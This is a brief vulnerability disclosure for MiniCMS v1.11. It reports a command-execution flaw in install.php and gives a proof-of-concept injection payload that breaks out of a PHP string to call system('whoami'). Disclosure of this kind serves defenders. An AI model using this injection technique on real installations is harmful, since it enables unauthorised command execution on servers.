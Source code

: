 #### BUG_AUTHOR:acmglz
# MiniCMS exists command execution
## Download address:
https://github.com/bg5sbk/MiniCMS/releases/tag/v1.11
## Version:V1.11
## Tested on: PHP, Apache, MySQL
## Affected Page:
install.php

Attackers can exploit command execution vulnerabilities to obtain sensitive information about systems and applications, including passwords, user accounts, databases, and more

## Proof of vulnerability:
## Payload：

payload

```
)');system('whoami');//
```

## Trigger popup：
t1

After installation, you can view that the command is successfully executed

t2
